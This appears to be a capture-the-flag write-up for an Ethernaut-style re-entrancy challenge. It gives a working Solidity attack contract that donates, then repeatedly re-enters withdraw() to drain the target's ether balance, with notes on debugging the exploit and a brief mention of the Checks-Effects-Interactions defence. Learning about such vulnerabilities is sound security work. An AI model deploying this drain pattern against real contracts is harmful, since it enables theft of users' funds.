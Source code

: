 ## Re-entrancy

1. Again when I used to watch austin griffith explaining how to become a ethereum builder very fast... and he ran scaffold eth and says to learn re-entrancy and i was not able to setup scafold-eth multiple times... it works now but sometimes when i boot a new iso, there are occassions it gives weird errors... But i learned from him alot... I knew re-entrancy for a while now and is my first vulnerability that i learnt... i heard market manipulation etc etc before re-ent but ik the code of re-ent.

2. Here, you already have learned how to invoke fallback() or revoke() in previous challenges so using that when an external call is made you re-enter the function provided state is not changed and state is changed after the the call().

3. you have to first donate so that the mapping has your donation and then you can withdraw the amount you donated also have a receive function to re-enter withdraw again.

4. The only hard part here is writing receive()/ fallback(), where you need to calculate how much eth do you want to withdraw, suppose you have donated 0.9 eth but you try to withdraw(1 ether) then transaction fails.

> Code

```solidity
interface Re_ent  {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Attack {
    Re_ent instance;

    constructor (address _address) {
        instance= Re_ent(_address);
    }

    function attack() public {
        instance.donate{value: 1e17}(address(this));
        instance.withdraw(1e17);
    }

    receive() external payable {
        // below lines were hardest to write
        // since we have to drain all the funds from instance
        uint eth_balanceOf_inst = address(instance).balance;
        // if my balance mapping in instance is less than the eth_balance of instance then take my balance else take the rest

        uint withdraws_this = 1e17 < eth_balanceOf_inst ? 1e17 : eth_balanceOf_inst;

        if (eth_balanceOf_inst>0){
            instance.withdraw(withdraws_this);
        }
    }

    // this is not necessary but i will try to get my eth and additional eth i get by solving
    function withdrawHackedEth() public {
        (bool sent,) =msg.sender.call{value: address(this).balance}("");
        require(sent);
    }
}
```

5. I failed using above code i tried few things and i was failing most of the times but the issue was that `function attack() public` in contract Attack needs to be payable.

6. success

> notes : I forget the Checks-Effects-Interactions pattern name... ik the procedure but the name ...

> There is another AAA - \_\_\_\_ Affirm A... i will update this later... it was mentioned by Patrick Collins
